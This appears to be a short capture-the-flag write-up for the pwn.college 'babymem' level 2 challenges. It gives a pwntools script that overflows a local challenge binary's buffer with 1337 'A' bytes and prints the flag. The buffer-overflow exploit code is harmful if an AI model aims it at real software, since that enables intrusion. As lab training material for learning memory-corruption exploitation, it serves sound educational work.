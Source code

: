 ### Both challenges are solvable with this script: 

```python
#!/usr/bin/python
from pwn import *
context.log_level = 'critical'

r = process('/challenge/babymem_level2.1')

r.sendlineafter(b'size: ', b'1337')
r.sendline(b'A'*1337)

print(r.recvline_contains(b"pwn.college").strip().decode())
```